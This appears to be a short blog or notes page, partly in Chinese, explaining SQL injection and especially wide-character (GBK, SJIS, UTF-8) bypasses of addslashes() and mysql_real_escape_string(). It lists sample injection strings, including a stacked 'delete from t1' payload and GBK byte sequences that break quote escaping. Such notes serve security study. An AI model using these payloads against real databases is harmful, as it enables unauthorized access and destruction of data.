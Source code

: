 ```yaml
---
layout: page
title:	sql injection
category: blog
description:
---
```

# Preface

# Blind SQL
不显示错误，盲注

# sql Injection
> https://www.owasp.org/index.php/SQL_Injection
> https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005)

	select * from name = '$name'
		$name = "ahui' or 'a'='a"
		$name = "ahui' ;delete from t1; --"
		$name = "ahui' ;delete from t1; #"

## union

		$name = "ahui' UNION ALL SELECT ... #"

# Wide Charset Injection
> http://security.stackexchange.com/questions/9908/multibyte-character-exploits-php-mysql

1. Basic attacks on, e.g., UTF-8 and other character encodings by eating up extra backslashes/quotes introduced by the quoting function

2. Sneaky attacks on, e.g., GBK, that work by tricking the quoting function to introduce an extra quote for you

3. Attacks on, e.g., UTF-8, that conceal the presence of a quote by using an invalid non-canonical (over-long) encoding of the single quote:
Basically, the normal way of encoding a single quote has it fit into a single-byte sequence (namely, 0x27).
However, there are also multi-byte sequences that the database might decode as a single quote,
and that do not contain the 0x27 byte or any other suspicious byte value.

As a result, standard quote-escaping functions may fail to escape those quotes.

##  multi-byte characters
> https://vigilance.fr/vulnerability/MySQL-SQL-injection-via-multi-byte-characters-5885

(multi-byte). Here are three examples of character tables/encoding:

 - ISO-8859-1/LATIN1 (French)
 - UTF-8 (international, multi-byte)
 - SJIS, BIG5, GBK, GB18030, UHC (Asian, multi-byte)

A SQL string can contain the tick character. For example:

	SELECT ... WHERE var = 'abc\'def';
	SELECT ... WHERE var = 'abc''def';

The first vulnerability affects the `mysql_real_escape_string()` function family which does not reject invalid multi-byte characters:

For example, in UTF-8, the `"0xC8 ' ' attackersql"` or `"0xC8 \ ' attackersql"` string is converted to:
`"one_character ' attackersql"` (ignore spaces). So, the query:

	  SELECT ... WHERE var = ' mysql_real_escape_string("0xC8 ' attackersql") '
	become :
	  SELECT ... WHERE var = ' 0xC8 ' ' attackersql '
	  SELECT ... WHERE var = 'one_character ' attackersql'

An attacker can therefore inject the attackersql command.

The second vulnerability only affects Asian encodings,
when they are used with simple escaping functions such as a regular expression replace of `' by \'`, PHP addslashes(), etc.
For example, in SJIS, the query:

	  SELECT ... WHERE var = ' addslashes("0x95 0x5C ' attackersql") '

becomes, because 0x5C is the backslash character:

	  SELECT ... WHERE var = ' 0x95 0x5C \ \ ' attackersql '
	  SELECT ... WHERE var = 'one_character \\' attackersql'

An attacker can therefore inject the attackersql command.

## 在GBK宽字节中

	%df'
	%df%27
	%df%5c%27 # %df%5c 是gbk 中是一个汉字

	%5C \
	%27 '

	$sql = "select * from t where name='{$name}' and password='{$password}' limit 1";
	$name="\xbf\x27 or name=name /*"
		$name="\xbf\x5c' or name=name /*"
		$name="\xbf\x5c' or name=name ;/*"
		$name="\xbf\x5c' or name=name ;#/*"

This type of attack is possible with any character encoding where there is a valid multi-byte character that ends in 0x5c, because addslashes() can be tricked into creating a valid multi-byte character instead of escaping the single quote that follows.
> UTF-8 does not fit this description.

